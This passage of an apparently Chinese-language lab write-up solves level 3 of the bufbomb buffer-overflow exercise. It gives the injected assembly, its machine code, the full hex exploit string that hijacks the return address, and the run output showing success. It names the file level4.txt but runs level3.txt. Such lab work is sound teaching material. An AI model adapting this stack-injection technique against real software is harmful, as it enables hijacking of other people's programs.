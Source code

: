     movl $0x3ab24af4, %eax      #put cookie value in eax 
    pushl $0x08048dbe           #push address of next instruction after getbuf in test()  
    movl $0x55683710, %ebp      #set ebp of test correctly
    ret


按前面的方式获取对应的机器码：


    level3_run_code.o:     file format elf32-i386


    Disassembly of section .text:

    00000000 <.text>:
       0:	b8 f4 4a b2 3a       	mov    $0x3ab24af4,%eax
       5:	68 be 8d 04 08       	push   $0x8048dbe
       a:	bd 10 37 68 55       	mov    $0x55683710,%ebp
       f:	c3                   	ret    

最后得到我们的level4.txt为：

    b8 f4 4a b2 3a 68 be 8d 04 08 bd 10 37 68 55 c3 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 b8 36 68 55  

运行：

    cat level3.txt  | ./hex2raw.py | ./bufbomb -u yj
    Userid: yj
    Cookie: 0x3ab24af4
    Type string:Boom!: getbuf returned 0x3ab24af4
    VALID
    NICE JOB!
成功完成！
